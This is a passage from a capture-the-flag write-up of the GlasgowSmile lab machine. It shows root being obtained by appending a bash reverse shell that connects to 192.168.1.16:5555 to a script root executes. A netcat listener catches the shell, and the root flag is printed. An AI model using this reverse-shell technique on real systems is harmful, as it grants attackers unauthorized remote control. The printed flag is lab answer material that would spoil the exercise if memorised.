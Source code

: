 ```
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ echo "bash -c 'bash -i >& /dev/tcp/192.168.1.16/5555 0>&1'" >> .trash_old
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat .trash_old 
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

bash -c 'bash -i >& /dev/tcp/192.168.1.16/5555 0>&1'
```

And we have root shell :

```
$ nc -lvp 5555
listening on [any] 5555 ...
root@glasgowsmile:~# 
```

Let's read the flag.

```
root@glasgowsmile:~# cat /root/root.txt
cat /root/root.txt
  ▄████ ██▓   ▄▄▄       ██████  ▄████ ▒█████  █     █░     ██████ ███▄ ▄███▓██▓██▓   ▓█████ 
 ██▒ ▀█▓██▒  ▒████▄   ▒██    ▒ ██▒ ▀█▒██▒  ██▓█░ █ ░█░   ▒██    ▒▓██▒▀█▀ ██▓██▓██▒   ▓█   ▀ 
▒██░▄▄▄▒██░  ▒██  ▀█▄ ░ ▓██▄  ▒██░▄▄▄▒██░  ██▒█░ █ ░█    ░ ▓██▄  ▓██    ▓██▒██▒██░   ▒███   
░▓█  ██▒██░  ░██▄▄▄▄██  ▒   ██░▓█  ██▒██   ██░█░ █ ░█      ▒   ██▒██    ▒██░██▒██░   ▒▓█  ▄ 
░▒▓███▀░██████▓█   ▓██▒██████▒░▒▓███▀░ ████▓▒░░██▒██▓    ▒██████▒▒██▒   ░██░██░██████░▒████▒
 ░▒   ▒░ ▒░▓  ▒▒   ▓▒█▒ ▒▓▒ ▒ ░░▒   ▒░ ▒░▒░▒░░ ▓░▒ ▒     ▒ ▒▓▒ ▒ ░ ▒░   ░  ░▓ ░ ▒░▓  ░░ ▒░ ░
  ░   ░░ ░ ▒  ░▒   ▒▒ ░ ░▒  ░ ░ ░   ░  ░ ▒ ▒░  ▒ ░ ░     ░ ░▒  ░ ░  ░      ░▒ ░ ░ ▒  ░░ ░  ░
░ ░   ░  ░ ░   ░   ▒  ░  ░  ░ ░ ░   ░░ ░ ░ ▒   ░   ░     ░  ░  ░ ░      ░   ▒ ░ ░ ░     ░   
      ░    ░  ░    ░  ░     ░       ░    ░ ░     ░             ░        ░   ░     ░  ░  ░  ░



Congratulations!

You've got the Glasgow Smile!

JKR{68028b11a1b7d56c521a90fc18252995}


Credits by

mindsflee
```

Meme box haha, see you!
